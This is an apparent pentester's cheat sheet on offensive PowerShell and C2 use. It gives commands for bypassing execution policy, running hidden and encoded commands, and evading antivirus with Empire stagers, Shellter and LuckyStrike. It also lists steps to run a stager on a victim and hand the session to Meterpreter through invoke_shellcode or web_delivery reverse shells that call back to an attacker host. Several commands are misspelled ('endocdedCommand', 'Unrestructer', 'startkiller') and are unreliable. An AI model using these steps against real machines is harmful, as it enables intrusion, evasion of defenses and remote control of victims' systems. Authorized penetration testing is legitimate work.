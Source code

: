 # PowerShell for Pentesters

##### Basics

```powershell
# bypass policy
powershell.exe -<ExecutionPolicy | ep> <Bypass | Unrestructer> <program.exe | calc.exe>

# hidden
powershell.exe -WindowStyle Hidden <program.exe | calc.exe>

# encode
powershell.exe -endocdedCommand <$var | string>


powershell.exe -Get-Service # to get sys infos and service running

## get alias ( tous les raccourcis : ls, dir....)
Get-Alias -Definition Get-ChildItem
## get process exe ( path)
Get-Process <ProcessName> | Sort-Object -Unique | Format-List Path

## get infos
Get-WmiObject -class win32_operationsystem | select -Property * | <apply other filter like:  Select-Object <property> >
# alternative to format-list :
fl


# modules ( extension .psm1)

# get all modules
Get-Module -List-Available

#import module
# powersploit
```

## Powershell with C2 and Obfuscation

- In order to evade antivirus, we could combine empire/startkiller stager with other framework like :
  - **Shellter and luckyStrike** to obfuscate or compromise native app

```bash
# install empire in kali
sudo apt install powershell-empire

# install anywhere
sudo apt-get update && sudo apt-get install powershell-empire startkiller -y

# lunch empire
sudo powershell-empire server
# then lunch the client
sudo powershell-empire client
# lunch web interface
startkiller # (in search bar)
# or
startkiller -no-sandbox # in terminal

# go explore empire and startkiller

# Shellter in kali: need wine because is exe
dpkg --add-architecture i386
apt update && apt install wine32
# install shellter
sudo apt install shellter
# download the shellter project and run
wine shellter
# or
shellter
```

### Empire process to get shell for noob :

- Lunch empire server
- Lunch empire client
- create listenner
- create stager
- run stager on victim
- get shell
- interact with agent
- run post exploit modules with : **usemodule**

```bash
# nmap by pivoting
usemodule powershell/situational_awareness/network/portscan
# set host and port
```

### From empire session to meterpreter :

```bash
# interact with the agent
interact agentName
# migrate
usemodule powershell/code_execution/invoke_shellcode
set LHOST <lhost>
set LPORT <lport>
set payload <payloadname | reverse_http>

# go on msfconsole
use exploit/multi/handler
set payload windows/meterpreter/<payload_name>
set LHOST <lhost>
set LPORT <lport>
set exitonsession false
exploit -j
# return on empire agent
execute


#alternative


# 1. go on msfconsole
use exploit/multi/script/web_delivery
set target 2
set SRVHOST <AttackIp>
set LHOST <AttackIp>
set payload windows/meterpreter/<payload_name>
exploit

# 2. go on empire
usemodule powershell/code_execution/invoke_metasploitpayload
set URL <Url From the exploit result>
execute

#3. Got shell
sessions
```
